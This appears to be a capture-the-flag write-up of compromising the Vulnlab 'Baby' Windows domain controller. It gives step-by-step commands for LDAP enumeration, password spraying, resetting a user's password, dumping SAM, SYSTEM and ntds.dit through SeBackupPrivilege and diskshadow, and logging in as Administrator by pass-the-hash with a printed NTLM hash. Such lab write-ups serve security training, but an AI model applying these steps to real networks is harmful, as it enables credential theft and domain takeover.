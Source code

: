 ```yaml
---
layout: writeup
category: Vulnlab
chall_description:
points: 
solves: 
tags: windows
date: 2024-09-05
comments: true
---
```


This is my write-up for the Baby machine from Vulnlab.

# Enumeration

We started executing a full port scan on the host.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -v -sS -Pn -p- 10.10.98.130 --min-rate=300 --max-rate=500
```

![Untitled](Untitled.png)

Now, we execute a port scan only on the open ports that we have found before.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -vv -sV -sC -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5357,5985,9389 -oA nmap/baby 10.10.98.130
```

![Untitled](Untitled%201.png)

![Untitled](Untitled%202.png)

We found the machine name, the domain, and the domain controller name, so we write it into our local hosts file.

![Untitled](Untitled%203.png)

Now, we execute the `netexec` tool to enumerate the SMB service. We could verify that we can log into the SMB as anonymous.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl --shares
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u "" -p "" --shares
```

![Untitled](Untitled%204.png)

But we couldn’t list any shares anonymously. So we try enumerating users with `kerbrute`, also without success. Finally, we enumerate the LDAP service using the `ldapsearch` tool. We could enumerate the accounts that were created on the host, and the default password when a new user is created.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ ldapsearch -H ldap://10.10.98.130 -x -b "DC=baby,DC=vl"
```

![Dev Users](Untitled%205.png)

Dev Users

![IT Users](Untitled%206.png)

IT Users

The Teresa.Bell user has a description field saying “Set the initial password to BabyStart123!”.

![Untitled](Untitled%207.png)

We save those all users found on a list of users, after filtering to generate a clean output with only the correct usernames.

# Exploitation

First, we check if the `Teresa.Bell` has the initial password like in her description field, but we were not successful. So we execute the password spraying technique to verify if any other user has the initial password set.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u users.txt -p 'BabyStart123!' --continue-on-success
```

![Untitled](Untitled%208.png)

We could verify the `Caroline.Robinson` user did not change her password. Using the `smbpasswd` tool, we can change the initial password and redefine to one of our choice.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─[☢] $ smbpasswd -r baby.vl -U caroline.robinson
```

![Untitled](Untitled%209.png)

Now, we check if the password really has been changed.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u caroline.robinson -p 'hacker@123'
```

![Untitled](Untitled%2010.png)

We were able to change the `caroline.robinson`’s password. Now we can log into WinRM service as this user.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u caroline.robinson -p 'hacker@123'
```

![Untitled](Untitled%2011.png)

## Privilege Escalation

Checking the privileges for `caroline.robinson` account, we verify she has the `SeBackupPrivilege` enabled.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami /priv
```

![Untitled](Untitled%2012.png)

With this privilege, we can save the SAM database and de SYSTEM file to retrieve the NTLM hashes for the users.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\sam sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\system system
```

![Untitled](Untitled%2013.png)

Now we download these files to our local machine.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download system
```

![Untitled](Untitled%2014.png)

We were able to retrieve the NTLM hashes for the users locally using the secretsdump impacket tool.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system LOCAL
```

![Untitled](Untitled%2015.png)

We could not log into WinRM using the Administrator’s hash retrieved before, because this hash is for the local Administrator user, not the Administrator DC user. So we have to retrieve the administrator DC user that is saved in the ntds.dit file. First, we try to create a ***shadow copy*** of the `C:` drive using the `vssadmin` tool, but we do not have permissions to execute it. We tried some other techniques without success.

Searching on the Internet, we could found a technique to retrieve the ntds.dit file through diskshadow:

[Dumping Domain Controller Hashes Locally and Remotely | Red Team Notes](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

First, we create a diskshadow script called `script.txt`  with the content and upload it to the host:

```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

```bash
# uploading the file
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> upload /home/th3g3ntl3m4n/vulnlab/baby/www/script.txt
```

Now, we execute the diskshadow tool to execute our script.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> diskshadow /s script.txt
```

![Untitled](Untitled%2016.png)

Now we copied the `ntds.dit` file from the new drive, (`E:`), created above.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> robocopy /b E:\Windows\ntds . ntds.dit
```

![Untitled](Untitled%2017.png)

Finally, we download the `ntds.dit` file to our local machine and execute the secretsdump tool to retrieve the Administrator’s DC hash.

![Untitled](Untitled%2018.png)

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL
```

![Untitled](Untitled%2019.png)

We now just log into the WinRM service as Administrator using the ***Pass-The-Hash (PTH)*** technique.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
```

![Untitled](Untitled%2020.png)